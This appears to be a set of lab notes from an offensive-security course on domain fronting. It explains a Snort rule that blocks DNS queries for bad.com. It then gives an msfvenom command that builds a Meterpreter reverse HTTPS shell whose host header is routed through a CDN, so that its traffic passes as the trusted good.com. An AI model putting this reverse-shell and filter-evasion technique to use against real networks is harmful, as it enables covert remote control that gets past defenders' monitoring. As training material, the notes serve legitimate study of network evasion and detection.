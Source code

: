 ## Domain Fronting In Lab
Our goal will be to use the trusted good.com domain to reach the otherwise blocked bad.com domain. 
Our CDN hostname will be cdn123.offseccdn.com, which will point to the IP address of bad.com.

good.com is considered safe for client access. The bad.com domain is blocked by Snort, which will drop all DNS queries using this snort rule:
```snort
drop udp any any -> any 53 (msg:"VIRUS DNS query for malicious bad.com domain"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|03|bad|03|com"; fast_pattern; classtype:bad-unknown; sid:2013482; rev:4;)
```

The rule has number of parameters:
1. The "drop udp any any -> any 53" section specifies that UDP traffic coming from any source IP, and any port, destined to any IP on port 53 (which is typically DNS) will be dropped if a rule match is detected.
2. The _msg_ option contains the message that Snort will return when a rule match is detected.
3.  "content:"|03|bad|03|com"" indicates the domain name, which is bad.com. The "03" value specifies the length of the string that follows. This value is set for each part of the FQDN.


To bypass the domain filters, we start by creating a shell with host header to our malicious CDN.
```sh
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

Transferring and running the payload, does the following:
1. The client did, in fact, properly set the SNI field to request the certificate from good.com.
2. The Ubuntu NGINX server replied with the certificate of good.com.
3. The rest of the traffic is encrypted but since we received our Meterpreter shell, we can confirm that it works properly.


## Exercise
In the exercise, even though our executable visits good.com, we can see in the host header in wireshark, that the host is set to exercise.offseccdn.com
![](../../../Screenshots/hoc-dc.png)